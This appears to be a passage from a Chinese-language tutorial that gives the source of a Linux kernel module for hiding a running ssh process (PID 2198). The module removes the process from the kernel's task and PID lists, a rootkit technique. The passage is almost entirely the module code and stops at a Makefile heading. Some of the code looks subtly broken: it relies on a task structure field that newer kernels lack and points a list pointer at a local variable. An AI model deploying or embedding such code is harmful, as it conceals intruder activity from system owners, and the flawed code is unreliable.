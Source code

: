   

先看一下ssh的相关进程，隐藏2198进程

![]()

hide_process.c文件内容如下

    
    
    #include <linux/module.h>  
    #include <linux/sched.h>  
    #include <linux/sched/signal.h>  
      
    /* 隐藏特定 PID 的进程 */  
    void hide_process(void)  
    {  
       int pid = 2198; // 您想要隐藏的进程 PID  
       struct task_struct *task = NULL;  
       struct pid *pid_struct = NULL;  
       struct hlist_node *node = NULL;  
      
       /* 获取指定 PID 的 task_struct */  
       pid_struct = find_get_pid(pid);  
       task = pid_task(pid_struct, PIDTYPE_PID);  
       if (!task)  
           return;  
      
       /* 从任务列表中删除该进程 */  
       list_del_rcu(&task->tasks);  
       INIT_LIST_HEAD(&task->tasks);  
      
       /* 从 PID 链表中删除该进程 */  
       node = &task->pids[PIDTYPE_PID].node;  
       hlist_del_rcu(node);  
       INIT_HLIST_NODE(node);  
       node->pprev = &node;  
      
       put_pid(pid_struct);  
    }  
      
    static int __init test_init(void)  
    {  
       hide_process();  
       return 0;  
    }  
      
    static void __exit test_exit(void)  
    {  
       printk(KERN_INFO "Module exit: Process hiding\n");  
    }  
      
    module_init(test_init);  
    module_exit(test_exit);  
    MODULE_LICENSE("GPL");  
    MODULE_AUTHOR("Your Name");

Makefile文件内容如下
